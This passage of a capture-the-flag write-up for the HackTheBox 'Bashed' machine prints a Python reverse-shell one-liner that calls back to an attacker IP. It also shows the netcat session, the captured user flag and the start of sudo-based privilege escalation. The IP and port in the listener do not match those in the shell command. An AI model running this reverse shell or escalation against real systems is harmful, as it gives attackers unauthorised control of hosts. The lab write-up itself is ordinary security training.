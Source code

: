 ![HTB-Bashed-WebShell](/images/htb-bashed-webshell2.png)

Type / copy paste the below to get a reverse shell , simultaneously fire up a netcat listner.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

In netcat listner we can see we got connection/shell back.
```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777   
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.68] 46602
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home
arrexel
scriptmanager
```

### User Flag,

Let us get the user flag.
We see two user and one of these has the user flag that we now can get.

```bash
$ cd arrexel
$ ls
user.txt
$ cat user.txt
57c8f5fb610baf65badd72c52c674767
```

### Privilege Escalation

Checking what privileges we have, we discover scriptmanager user has some, which we enumerate further.

We assume scriptmanager role by - sudo -i -u scriptmanager
```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.68] 46604
/bin/sh: 0: can't access tty; job control turned off
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

